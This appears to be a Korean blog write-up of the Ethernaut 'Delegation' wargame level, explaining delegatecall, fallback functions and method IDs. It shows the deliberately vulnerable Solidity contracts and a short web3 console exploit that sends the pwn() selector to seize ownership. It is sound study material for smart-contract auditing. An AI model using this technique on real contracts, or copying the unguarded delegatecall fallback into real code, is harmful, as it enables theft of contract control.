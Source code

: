 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 6) Delegation
date: '2022-01-09 00:43:00'
author: 한성원
tags: ethernaut Token vulnerability
categories: 취약점분석
---
```



# 👋 1. Delegation
__Difficulty 4/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- instance의 ownership을 가져오면 승리한다.

- - -

## 코드 분석
분석은 주석에!

```solidity

contract Delegate {
    // owner의 contract
    address public owner;
    
    // constructor: set parameter _owner as owner of contract
    constructor(address _owner) public {
        owner = _owner;
    }
    
    //set msg.sender as owner
    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    // owner of contract
    address public owner;
    // Delegate contract
    Delegate delegate;
    
    //constructor with parameter delegate contract address
    constructor(address _delegateAddress) public {
        // set delegate as Delegate contract address
        delegate = Delegate(_delegateAddress);
        // set owner as deployer
        owner = msg.sender;
    }

    //fallback function
    fallback() external {
        //delegate에 delegatecall을 보낸다. 
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 ownership을 가져오는 것이다.

만약 우리가 가지고 있다면 우선 여기서 말해주는 힌트를 보자!
1. delegatecall
2. Fallback function
3. method id
를 알면 도움이 될 것이라고 말한다. 

### Delegate Call
delegate call은 일전에 내가 취약점 시리즈에서 다룬 적 있다! solidity official docs와 내 글을 보면 이해가 될 것이다.
[DelegateCall](https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/) <= Click
[Solidity Docs](https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html) <= Click

### fallback 
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다.

### method id
This is derived as the first 4 bytes of the Keccak hash of the ASCII form of the signature
즉 함수 결과값의 앞에서부터 4 bytes의 Keccak hash라고 생각하면 된다.

우리가 owner를 가져오기 위한 시나리오는 이렇다.
1. pwn()를 4 byte의 keccak hash로 하나의 변수에 저장한다.
2. Delegation contract에 1번에서 만든 변수를 data로 지정하고 transaction을 보낸다.
3. Delegation contract의 owner를 확인해본다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 기존의 owner를 확인한다.
await contract.owner()

// web3 library를 사용한다.
// encodePwn라는 변수에 pwn()을 4 byte keccak hash로 변형해 저장한다.
const encodePwn = web3.eth.abi.encodeFunctionSignature("pwn()")

// Delegation contract의  fallback function을 call한다. 
await contract.sendTransaction({data: encodePwn})

// owner가 자신인 것을 확인한다.
await contract.owner()
```

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
delegatecall 은 low level function이라 아직 내가 완벽하게 이해했다고 말할 수는 없을 것 같다. ethernaut을 다 풀어본 후에 EVM에 대해 좀 더 깊히 배워야겠다는 생각이 든다. 왜냐면 나는 그냥 smart contract 개발자가 아닌 auditor가 되고싶기 때문이다!!!! 앞으로도 화이팅하자!


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DelegateCall 취약점 :https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/
- Solidity Docs delegate call: https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html

```toc

```
